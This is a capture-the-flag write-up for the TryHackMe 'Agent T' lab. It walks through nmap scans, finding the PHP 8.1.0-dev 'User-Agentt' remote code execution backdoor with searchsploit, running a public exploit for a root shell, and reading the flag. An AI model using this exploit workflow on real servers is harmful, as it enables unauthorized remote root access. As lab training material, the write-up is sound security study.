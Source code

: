 ```yaml
---
title: "Agent T"
url: "/writeups/tryhackme/agent_t/"
summary: dreaming
tags:
- tryhackme
- linux
- php
---
```


![Agent T](/dreaming.png)

## Scanning
### nmap
Started with an `nmap` scan:

* TCP all ports
```bash
kali@kali:~/ctf/thm/agent_t$ sudo nmap -T4 -p- 10.10.49.137 -oA nmap/tcp_all_ports
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-14 21:06 EST
Nmap scan report for 10.10.49.137
Host is up (0.082s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```
* TCP with scripts against found ports
```bash
kali@kali:~/ctf/thm/agent_t$ sudo nmap -sCV -p80 10.10.49.137 -oA nmap/tcp_def_scripts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-14 21:07 EST
Nmap scan report for 10.10.49.137
Host is up (0.079s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```
## Enumeration
### Web Page
Looks to be a simple Admin Dashboard with nothing really interesting found.
There are also a handful of links that lead to non-existent pages.
### searchsploit
```bash
kali@kali:~/ctf/thm/agent_t$ searchsploit PHP 8.1.0-dev
--------------------------------------------------------- -----------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- -----------------------
...
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution      | php/webapps/49933.py
...
```
Found an exploit for the version of PHP that is being used.
Can also be found here: https://www.exploit-db.com/exploits/49933
## Exploitation
Copied the found exploit locally and executed it.
```bash
kali@kali:~/ctf/thm/agent_t$ python3 exploit.py 
Enter the full host url:
http://10.10.49.137/

Interactive shell is opened on http://10.10.49.137/ 
Can't acces tty; job crontol turned off.
$ whoami
root
```
And a interactive shell is given back.
The flag can then be found.
### Flag
```bash
$ cat /flag.txt
flag{4127d0530abf16d6...}
```
